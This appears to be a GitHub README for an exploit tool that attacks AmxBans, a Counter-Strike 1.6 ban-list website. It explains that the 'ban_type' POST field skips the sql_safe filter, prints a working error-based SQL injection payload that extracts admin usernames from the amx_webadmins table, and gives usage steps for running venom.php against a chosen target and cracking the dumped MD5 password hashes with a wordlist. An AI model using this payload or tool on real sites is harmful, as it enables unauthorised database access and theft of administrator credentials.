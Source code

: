 
# Short info
<p> Amxbans is an website for the Counter-Strike 1.6 banlists </p>
<p> It works like -> Admin gives you ban, and all information about ban are appears on the website </p>

 

# Explanation
<img src="explanation.png"  height="400" width="600">

<p> Look on the image where code block section are selected with red rectangle.
There are defined bunch of variables , and all these variables are filtered with the sql_safe function </p>
<br>
<p> SQL_SAFE source</p>
include/functions.inc.php LINE 80

```
function sql_safe($value) {
	if (get_magic_quotes_gpc()) $value=stripslashes_recursive($value); //function in config.inc.php
	return mysql_real_escape_string($value);
} 
```
- [1] get_magic_quotes_gpc() = Checks configuration in php.ini,  if this feature
is avaliable then it wiil escape all  single-quote, double quote, backslash and NULs 
- [2] stripslashes_recursive($value) = All data which will passed in $value will be filtered and slashes will be stripped.
- [3] sql_safe function will return with mysql_real_escape_string which is the mysql function used against sql injection attacks.

# Vulnerability
<p>As you see all the requests are fileter except one which is the </p>

```
$type = $_POST["ban_type"];
```
<p>so that means that we can pass whatever we want in the $_POST request and it will executed in the database</p>
<p>For example into the $_POST["ban_type"] we can pass sql query like below</p>

```
"'+(1 AND extractvalue(rand(),concat(0x3a,(SELECT  username  FROM `amx_webadmins` WHERE ID > 0  LIMIT 2,1))))+'"
```
<p>and it will return Username from the amx_webadmins</p>


# Usage
- [1] Open venom.php and set the target on line 40
- Experimental = You can uncomment ```restore_hash($password);``` on the 67 line
then import code from the db.sql and your wordlist into the mysql server,
and you will be able to use your password cracking wordlist for md5 hash from the your server.
```
php venom.php
```
<img src="screen.png"  height="400" width="600">